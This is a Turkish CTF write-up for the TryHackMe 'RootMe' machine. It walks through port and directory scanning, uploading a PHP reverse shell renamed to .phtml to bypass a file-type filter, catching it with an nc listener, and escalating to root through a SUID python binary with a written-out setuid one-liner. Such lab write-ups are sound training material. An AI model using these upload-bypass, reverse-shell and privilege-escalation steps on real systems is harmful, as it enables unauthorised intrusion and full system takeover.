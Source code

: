 # RootMe CTF Write up
---
Selam Dostlar RootMe ctf çözümüyle karsınızdayım.

>nmap -sC -sV <İP> -Pn

```sh
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 03:14 EDT
Nmap scan report for 10.10.214.100
Host is up (0.62s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

##### 80 portunun (http) acik oldugunu goruyoruz hemen siteye gidiyoruz:
---------





/index.php de (ana safada) isimize yarayacak birsey yok bizde gobuster/dirb 
ile dizin taraması yapıyoruz.


>gobuster dir -u <İP> -w /usr/share/dirb/wordlists/common.txt

```sh
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```



##### Bize Verilen çıktıyı inceliyoruz:
--------
>Status:403 olarak belirtilen dizinler erisim yetkimizin `olmadığı` dizinler
>Status:301 olarak belirttiği dizinler erisim yetkimizin `oldugu` dizinler

##### Erisim yetkimizin olduğu dizinleri inceliyoruz:
------
```
/css dizininde home dizini ve /panel dizinin css kodları var.
/js dizininde bir js kodu var.
/panel dizininde bizi dosya yükleyebileceğimiz bir sayfa karşılıyor.
/uploads dizini yüklenen dosyaların bulunduğu dizin
```
##### Php reverse shell indirmek ve düzenlemek:
----
Reverse Shelli [buradan](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) indirebilirsiniz.
```
Php reverse shelli açıp tun0 ipimizi ve dinleycek portumuzu yazıyoruz.
```
##### php reverse shelli /panel adresine yüklemek:
--------
```
Php reverse shell yüklemeye çalışıyoruz ama hata veriyor.`
Buradan php dosyalarını yüklemeyi kabul etmediğini görüyoruz.`
Bunu bypass etmek için uzatısını phtml olarak degistirip yüklüyoruz.`
```
##### Shelli almaya calışıyoruz:
-----
```
/uploads dizinine yuklenen dosyaların gittigini biliyorduk.
Bizde yukledigimiz dosyanın buraya geldiğini görüyoruz.
nc -lvnp (shelle yazdığımız port) yazarak portumuzu dinlemeye alıyoruz.
/uploads dizinine yüklediğimiz shellin üzerine tıklıyoruz
Ve Bağlantı Geliyor
```
##### User flagı buluyoruz:
------
>Hemen bulunduğumuz dizine ls çekiyoruz ve user flagı okuyoruz:`

```
$ cat user.txt
THM{xxxxxxxxxxxxxxx}
```

##### Yetki Yükseltmek:
---
```
find / -user root -perm /4000 2>/dev/null
```
komutu ile root olarak kullanbileceğimiz progrmaları listeliyoruz.
/usr/bin/python ı görüyoruz ve bunla yetki yükseltmeye çalışıyoruz.
```
[GTFOBins](https://gtfobins.github.io/) adresinde pythonu aratıyor ve python yetki yükseltme komutunu buluyoruz:
```
-c 'import os; os.setuid(0); os.system("/bin/sh")'
```
`pythonun bulunduğu dizini belirterek (/usr/bin/python) pythonu çalıştırıyor ve yetki yükseltme komutumuzu yazıyoruz.`

```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

id yazarak root olduğumuzu görüyoruz:
```
uid=0(root) gid=33(www-data) groups=33(www-data)
```

`/root dizini altında bulunan root.txt dosyasını okuyoruz`

```
# cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxxxx}
```







